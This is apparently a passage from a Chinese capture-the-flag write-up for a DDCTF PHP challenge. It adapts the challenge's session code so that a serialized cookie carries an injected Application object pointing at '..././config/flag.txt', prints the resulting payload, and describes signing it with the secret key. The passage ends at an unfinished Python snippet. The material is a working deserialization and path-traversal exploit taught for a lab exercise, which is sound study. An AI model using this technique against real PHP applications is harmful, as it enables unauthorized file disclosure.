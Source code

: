 ```
                $data = sprintf($data,$v);
            }
            parent::response($data,"Welcome");
        }

        if($session['ip_address'] != $_SERVER['REMOTE_ADDR']) {
            return true;
        }
        if($session['user_agent'] != $_SERVER['HTTP_USER_AGENT']) {
            parent::response('the user agent not match','error');
            return FALSE;
        }
        return TRUE;

    }

    private function session_create() {
        $sessionid = '';
        while(strlen($sessionid) < 32) {
            $sessionid .= mt_rand(0,mt_getrandmax());
        }

		$a = new Application;  //新建Application类
		$a->path = '..././config/flag.txt';  //修改类中变量path

        $userdata = array(
			$a,  //序列化
            'session_id' => md5(uniqid($sessionid,TRUE)),
            'ip_address' => $_SERVER['REMOTE_ADDR'],
            'user_agent' => $_SERVER['HTTP_USER_AGENT'],
            'user_data' => '',
        );

        $cookiedata = serialize($userdata);
		parent::response($cookiedata);
        $cookiedata = $cookiedata.md5($this->eancrykey.$cookiedata);
        $expire = $this->cookie_expiration + time();
        setcookie(
            $this->cookie_name,
            $cookiedata,
            $expire,
            $this->cookie_path,
            $this->cookie_domain,
            $this->cookie_secure
            );

    }
}

$ddctf = new Session();
$ddctf->index();?>
```
生成数据：
```
a:5:{i:0;O:11:"Application":1:{s:4:"path";s:21:"..././config/flag.txt";}s:10:"session_id";s:32:"d31fd78332ef2737d3c007915d643d86";s:10:"ip_address";s:13:"192.168.246.1";s:10:"user_agent";s:115:"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36";s:9:"user_data";s:0:"";}
```
注意此处的数据由于UA头不同，请自己生成。  
记得加上key进行md5加密：  
```python
import hashlib
```